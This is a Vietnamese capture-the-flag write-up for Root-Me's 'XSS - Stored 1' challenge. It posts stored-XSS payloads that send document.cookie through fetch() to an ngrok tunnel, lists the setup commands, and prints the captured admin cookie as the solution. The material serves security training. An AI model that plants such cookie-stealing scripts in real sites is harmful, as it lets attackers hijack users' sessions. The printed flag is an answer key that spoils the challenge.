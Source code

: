 # [XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

## Solutions

- Thử post message với nội dung:

```js
<script>alert(document.domain)</script>
```

=> load lại trang có xuất hiện alert => có lỗ hổng xss stored

- Post một script để người dùng khác hoặc admin gửi cookie đến mình:
  - Tạo một server ở localhost: `php -S localhost:8080`
  - Sử dụng ngrok để tạo một public url có chuyển hướng đến localhost:8080: `ngrok http 8080`
  - post javascript:

    ```js
    <script>fetch('https://0319-58-187-92-48.ap.ngrok.io', {method: 'POST', mode: 'no-cors', body: document.cookie})</script>
    ```

    ```js
    <img src=1 onerror="fetch('https://0319-58-187-92-48.ap.ngrok.io', {method: 'POST', mode: 'no-cors', body: document.cookie})">
    ```

- Đợi một lúc sẽ thấy request ở trang `http://127.0.0.1:4040/inspect/http` với body: `ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`

## References

- <https://www.ilovefreesoftware.com/30/featured/free-tools-to-expose-localhost-to-internet.html>
- <https://portswigger.net/web-security/cross-site-scripting>
